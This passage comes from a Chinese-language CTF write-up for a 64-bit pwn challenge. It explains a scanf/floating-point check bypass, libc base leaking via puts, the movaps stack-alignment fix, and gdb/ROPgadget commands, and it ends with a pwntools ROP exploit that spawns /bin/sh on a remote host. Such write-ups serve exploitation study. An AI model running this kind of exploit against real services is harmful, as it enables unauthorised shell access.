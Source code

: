 仅通过反汇编的代码我们试图使check1的返回值为0似乎是不可能的，所以我们还需要研究汇编代码。按照函数调用惯例，64位机器编译的程序的返回值优先被置于RAX寄存器中。同时，通过main函数中调用check1函数返回下一条语句，我们也可以看到其对EAX(RAX的低4字节)进行判断是否为0。所以我们需要关注Check1函数中RAX最后值的变化。该函数中，我们通过scanf('%lu', &input)获取一个unsigned long型，接着通过XMM0以及XMM1寄存器的一系列指令对RAX的值进行修改。

![8](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/w6zMVJ9M6MTfqBH0RVoIig.png)

具体的指令说明如下所示。一个unsigned long型使用8字节表示，最大值为2^64-1，所以我们只需要使得scanf的输入超过此值为NULL即可。

```
# 将RBP+8字节(double类型)地址的大小为64bit(8字节)的值赋给XMMO寄存器；
MOVSD XMM0, qword ptr[RBP+input]
# 判断两寄存器的值是否存在NULL，并对ZF，IF，CF寄存器赋值；
# 参考https://www.felixcloutier.com/x86/ucomisd
UCOMISD XMM0，XMM1
# 如果PF寄存器为1，则对AL赋值为1；
SETP AL
```

进入do_stuff函数之后，我们只需要获取在glibc中被动态加载的system以及/bin/sh字符串的地址即可。对于给定的glibc库文件，其内部函数的偏移是固定的，但是其基地址需要被leak出来。真正程序执行时，glibc库函数在内存中的地址为库基地址+库内固定偏移。对于前者的计算，我们通过程序实际运行时某执行过的glibc库函数的实际地址(%p, put或printf泄漏)-其库内固定偏移获得。对于后者，在给定libc的情况，对于函数，我们可以通过`readelf -s /lib/x86_64-linux-gnu/libc.so.6 |grep "system@@GLIBC_2.2.5"`指令或者pwntools中ELF('./libc-2.31.so').symbols['system']来获取；对于字符串，我们通过`ROPgadget --binary mypwn --string '/bin/sh'`或者pwntools中调用`next(sh.search("/bin/sh"))`来获取。

此外，在gdb运行时，我们可以通过命令`info proc map`来获取内存映射，然后通过`

info address system`和`find 0x80048000, 0xc0000000, "/bin/sh"`来查找函数和字符串来验证我们构造的地址是否正确。以上指令非常常用，所以在此记录一下。

然而，在获得system以及"/bin/sh"后构造ROP链，成功在本地kali上获得shell，但是远程总是无法打通。后来查阅到，在部分x86_64机器上，system函数调用会遇到movasp issue。原因是glibc中的库函数会使用到movaps指令，该指令用于数据传输但要求栈结构必须是16字节对齐的(这也是64位机器的函数调用惯例)。但是我们的ROP链的构造是以8字节为单位，所以可能会遇到该问题报错。解决方案是在ROP链中添加额外的ret指令使得栈16字节对齐或者跳过system函数开头的push指令即可。

![9](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/gxBQBJeZKthbMtE3oWIpRg.png)

![10](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/2-2-1.png)

完整的Exp如下所示。

```python
from pwn import *

sh = remote("xx.xx.xx.xx",30005)

# try to entry the while loop
sh.recvuntil(b"Enter the pincode: ")
sh.sendline(b'123456789012345678901234567890')

# receive the leaked address of puts function
sh.recvuntil(b"Uhm, not sure what is happening tbh..")
sh.recvuntil(b"\nI'm just going to help you out the tinyest bit.. ")

libc_puts_addr_d = int(sh.recv().decode()[:-1], 16)
print("received the puts addr: %s", libc_puts_addr_d)

libc = ELF('./libc-2.31.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc-2.33.so')
libc_puts_addr_s = libc.symbols['puts']
libc_base_addr = libc_puts_addr_d - libc_puts_addr_s
system_addr = libc_base_addr + libc.symbols['system']
binsh_addr = libc_base_addr + next(libc.search(b"/bin/sh"))

pop_rdi_addr = 0x401255
ret_addr = 0x40101a # to solve the movaps issue

payload = b'A'*56 + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr)

```